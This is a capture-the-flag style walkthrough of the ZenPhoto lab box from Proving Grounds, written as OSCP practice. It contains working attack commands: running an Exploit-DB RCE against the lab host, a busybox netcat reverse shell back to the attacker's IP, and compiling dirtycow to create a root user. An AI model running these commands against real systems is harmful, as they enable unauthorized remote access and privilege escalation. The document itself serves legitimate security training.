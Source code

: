 ```yaml
---
layout: writeup
title: ZenPhoto - Proving Grounds
date: 2024-07-26 13:32:20 +0300
description: A Writeup of the ZenPhoto Box from Proving Grounds
image: # /assets/images/Flu/Flu_1.png
fig-caption: # Add figcaption (optional)
tags: [Linux, LainKusunagi, kernel]
---
```


![ZenPhoto1.png](/assets/images/ZenPhoto/ZenPhoto1.png){: .center-aligned width="600px"}

Here's a writeup for ZenPhoto, an Intermediate Proving Grounds box from the [LainKusanagi list of OSCP like machines](https://www.reddit.com/r/oscp/comments/1c8pzyz/lainkusanagi_list_of_oscp_like_machines/). get started with an nmap scan to reveal:
```
PORT     STATE SERVICE
22/tcp   open  ssh
23/tcp   open  telnet
80/tcp   open  http
3306/tcp open  mysql
```
I head to the browser to check port 80, and I see this. 

![ZenPhoto2.png](/assets/images/ZenPhoto/ZenPhoto2.png){: .center-aligned width="600px"}

Not super helpful, so I kick off a directory scan which points toward a /test directory.

![ZenPhoto3.png](/assets/images/ZenPhoto/ZenPhoto3.png){: .center-aligned width="600px"}

Powered by ZenPhoto? You don't say. Viewing the source of this page reveals a version number that might help us to find an exploit.

![ZenPhoto4.png](/assets/images/ZenPhoto/ZenPhoto4.png){: .center-aligned width="600px"}

It shows a few other directories like `/test/zp-core/images/reset_icon.png` which leads us to the admin page of `192.168.245.41/test/zp-core/admin.php` when we try to few all images, but I search for the version and exploit to get started. Unfortunately most of them seem to require authentication, but there is one [RCE Exploit](https://www.exploit-db.com/exploits/18083) that does not. We save that to our directory as 18083.php (like it's titled in searchsploit) and run `php 18083.php 192.168.245.41 /test/`. 

![ZenPhoto5.png](/assets/images/ZenPhoto/ZenPhoto5.png){: .center-aligned width="600px"}

That get us a limited shell, so I decided to use `busybox nc 192.168.45.183 4444 -e /bin/bash` to get something more stable. I catch that shell with penelope, and it's time to enumerate. We can't run sudo, and nothing really sticks out from lse or linpeas beyond kernel exploits, which we usually avoid in labs as they are often not the intended path. We do have `gcc` on this machine though, so we can compile a kernel exploit if we need to. 

And after enumerating for a while I did just that. I checked for cron jobs and running processes as well as a number of files which stuck out as potentially containing credentials, but I couldn't find anything that actually did, plus they would have to come for the root user directly. So ultimately I downloaded [dirtycow](https://github.com/firefart/dirtycow) and transferred it to the target machine. From then I simply followed the instructions (`gcc -pthread dirty.c -o dirty -lcrypt`) and ran the binary (`./dirty`) to create a user called `firefart` with the password I chose (`party1`). After that I simply used `su firefart` and entered my password.

![ZenPhoto6.png](/assets/images/ZenPhoto/ZenPhoto6.png){: .center-aligned width="600px"}

And we're done. Given that the dirtycow exploit is older than the lab machine, maybe it was the intended exploit. Either way, I need to run to the grocery store so I can start dinner, and I'll have to look for alternatives afterward. 

Lessons learned: Not a lot during this box. We use a powerful RCE exploit for one service which allows us to get a shell, and then we use a kernel exploit which we normally avoid during labs like this. Most of the time was spent looking for clues that weren't there on the target (or looking for alternatives to the initial exploit because I didn't realize I could run it from my own command line even though it was a .php file). Overal pretty simple. 

Post-Box Research: Most of the writeups I read actually were some kind of kernel exploits, so while I had options, it does seem like that was the intended path. While I used dirtycow, I also saw PwnKit and [this rds exploit](https://github.com/lucyoa/kernel-exploits/tree/master/rds). 
